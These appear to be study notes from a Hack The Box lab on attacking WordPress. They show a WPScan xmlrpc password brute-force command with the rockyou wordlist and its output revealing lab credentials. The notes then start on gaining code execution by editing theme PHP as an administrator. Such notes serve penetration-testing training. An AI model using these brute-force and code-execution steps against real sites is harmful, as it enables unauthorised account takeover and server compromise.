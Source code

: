 # Attacking WordPress

## Login Bruteforce

WPScan can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) and wp-login.

* wp-login -> brute forces default WordPress login page
* xmlrpc -> uses WordPress API to login through /xmlrpc.php <mark style="color:green;">**(Faster)**</mark>

```shell-session
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

> john was found in wordpress scan earlier in previous section.

```shell-session
<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1                                                                                           
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up
<SNIP>
```

* \--password-attack -> type of attack
* \-U -> users or file contianing user names
* \-P -> passwords or file contianing passwords
* \-t -> number of threads

We found `john:firebird1`

## Code Execution

If have Administrator privilege, we can modify the PHP code to execute system commands.

First login using the credentials found earlier `john:firebird1`&#x20;

**Access Appearance > Theme Editor**

Here we can edit PHP code directly (select inactive themem to avoid corrupting primary theme)

<figure><img src="https://academy.hackthebox.com/storage/modules/113/theme_editor.png" alt=""><figcaption><p>code execution</p></figcaption></figure>
